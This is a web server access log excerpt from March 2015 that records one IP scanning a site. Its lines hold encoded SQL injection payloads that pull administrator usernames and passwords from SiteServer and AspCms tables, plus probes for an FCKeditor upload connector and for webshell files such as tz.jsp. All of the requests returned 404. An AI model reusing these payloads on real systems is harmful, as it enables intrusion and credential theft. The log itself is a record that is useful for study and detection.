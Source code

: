       183.60.243.234 [05/Mar/2015:18:00:30 +0800] /siteserver/cms/background_contentsGroup.aspx?publishmentSystemID=1&contentGroupName=2111%27%29+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29%29+as+t0-- 404 0.014 0.014 4477 
      183.60.243.234 [05/Mar/2015:18:00:30 +0800] /Plugins/Doc.aspx?id=1/**/and/**/1=1 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:26 +0800] /siteserver/bbs/background_user.aspx?PageNum=0&Keyword=test%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29%29%29+as+t0--&UserGroup=7 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:25 +0800] /018d661ab998853079be32758a51a286.asp 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:26 +0800] /logins.asp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:18:00:25 +0800] /fck/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=FileUpload&Type=File&CurrentFolder=/ 404 0.007 0.007 4477 
      183.60.243.234 [05/Mar/2015:18:00:25 +0800] /admin/SysAdmin_list.asp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:25 +0800] /site/default.asp?TroncoID=%27UNION%20SELECT%201%20FROM%20thisisfaketable.FakeTable 404 0.007 0.007 4477 
      183.60.243.234 [05/Mar/2015:18:00:24 +0800] /inc/AspCms_Visits.asp?id=1%20anexecd%201=2%20union%20selecountct%20%20top%201%200x7e%2b0x7e%2b0x7e%2bLoginName%2b0x7c%2b0x7c%2b0x7c%2bpassword%2b0x7e%2b0x7e%2b0x7e%20from%20{prefix}user 404 0.008 0.008 4477 
    # jsp也有 别抢。。。

      183.60.243.234 [05/Mar/2015:17:59:40 +0800] /civitas/district_output/tz.jsp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:17:59:37 +0800] /civitas/district_output/jspcheck.jsp 404 0.017 0.017 4477 
      183.60.243.234 [05/Mar/2015:17:59:27 +0800] /blog/post/tz.jsp 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:17:59:27 +0800] /civitas/district/tz.jsp 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:17:59:27 +0800] /civitas/district/jspcheck.jsp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:17:59:27 +0800] /accounts/register/tz.jsp 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /ascii_art/tz.jsp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /ascii_art/img/tz.jsp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /accounts/register/jspcheck.jsp 404 0.010 0.010 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /ascii_art/text/tz.jsp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /blog/post/jspcheck.jsp 404 0.018 0.018 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /accounts/reset_password/tz.jsp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /blog/tag/tz.jsp 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /accounts/login/tz.jsp 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /blog/type/tz.jsp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /accounts/reset_password/jspcheck.jsp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /ascii_art/text/jspcheck.jsp 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /accounts/tz.jsp 404 0.012 0.012 4477 
      183.60.243.234 [05/Mar/2015:17:59:24 +0800] /ascii_art/img/jspcheck.jsp 404 0.015 0.015 4477 